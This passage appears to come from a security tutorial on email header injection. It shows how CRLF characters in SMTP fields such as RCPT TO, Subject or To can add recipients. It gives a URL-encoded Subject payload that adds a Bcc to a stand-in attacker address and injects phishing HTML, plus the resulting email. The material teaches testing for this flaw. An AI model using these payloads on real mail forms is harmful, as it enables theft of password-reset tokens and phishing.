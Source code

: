 A common place to inject is the `RCPT TO:` SMTP header as this is where the email is sent to. By injecting CRLF characters, new headers like `RCPT TO:attacker@example.com` to receive a copy of the email in your inbox (very dangerous for secrets like **password reset** tokens!). \
More commonly you will also see an injection into the `DATA` section where headers like `Bcc` can be added to send a copy to yourself or add content to the email for an indistinguishable phishing attack. A common place is the `Subject` or `From`/`To` headers:

**Subject** [**Payload**](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(false\)\&input=YQ0KQmNjOiBhdHRhY2tlckBleGFtcGxlLmNvbQ0KDQo8aDE%2BUGhpc2hpbmchPC9oMT4\&ieol=CRLF): `a%0D%0ABcc:%20attacker@example.com%0D%0A%0D%0A%3Ch1%3EPhishing!%3C/h1%3E`

```
From: sender@example.com
To: recipient@example.com
Subject: a
Bcc: attacker@example.com

<h1>Phishing!</h1>
Content...
```
